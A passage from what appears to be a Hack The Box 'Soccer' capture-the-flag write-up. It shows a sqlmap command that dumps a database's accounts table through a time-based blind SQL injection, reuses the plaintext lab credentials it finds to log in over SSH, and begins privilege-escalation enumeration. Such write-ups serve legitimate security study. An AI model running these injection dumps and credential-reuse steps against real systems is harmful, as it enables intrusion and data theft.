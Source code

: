 *In this case, I forgot to add the exclude-sysdbs switch.*

Once we have identified the unique database, we can dump the data just for that database. Since it's a time based blind, the time it takes to return data is much slower. 

```
sqlmap -u http://localhost/?id=73901 -D soccer_db --dump
--- SNIP ---
Database: soccer_db                                 
Table: accounts                                       
[1 entry]
+------+-------------------+----------------------+----------+
| id   | email             | password             | username |
+------+-------------------+----------------------+----------+
| 1324 | player@player.htb | PlayerOftheMatch2022 | player   |
+------+-------------------+----------------------+----------+
```

After a while, the data was dumped from the accounts table. 

Trying to SSH to the server with the above creds, we are successfully authenticated!

```bash
player@soccer:~$ whoami
player
player@soccer:~$ id
uid=1001(player) gid=1001(player) groups=1001(player)
player@soccer:~$ sudo su
[sudo] password for player: 
player is not in the sudoers file.  This incident will be reported
```

We do not have sudo privileges so let's try to enumerate the system. 

## Privilege Escalation

As we try to enumerate the system, one interesting thing to note is that the user can not view any processes other than theirs. 

```bash
player@soccer:~$ ps
    PID TTY          TIME CMD
   1900 pts/0    00:00:00 bash
  22861 pts/0    00:00:00 ps
player@soccer:~$ ps aux
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
player      1792  0.0  0.2  19084  9624 ?        Ss   15:50   0:00 /lib/systemd/systemd --user
player      1900  0.0  0.1  10148  5604 pts/0    Ss   15:50   0:00 -bash
player      5630  0.0  0.0   7108  3940 ?        Ss   16:57   0:00 /usr/bin/dbus-daemon --session --address=systemd: --nofork --nopidfile --systemd-activation --syslog-only
player     22862  0.0  0.0  10576  3552 pts/0    R+   17:41   0:00 ps aux
player@soccer:~$ cat /etc/fstab
LABEL=cloudimg-rootfs   /        ext4   defaults        0 1
#VAGRANT-BEGIN
# The contents below are automatically generated by Vagrant. Do not modify.
data /data vboxsf uid=1000,gid=1000,_netdev 0 0
vagrant /vagrant vboxsf uid=1000,gid=1000,_netdev 0 0
#VAGRANT-END
/dev/sda1 none swap sw 0 0
proc    /proc   proc    defaults,nodev,relatime,hidepid=2
```


[^htb-link]: <https://www.hackthebox.com/machines/soccer>
[^upgrade-reverse-shell]: <https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/>
[^sql-over-websockets]: <https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html>
[^gtfobins]: <https://gtfobins.github.io/gtfobins/dstat/>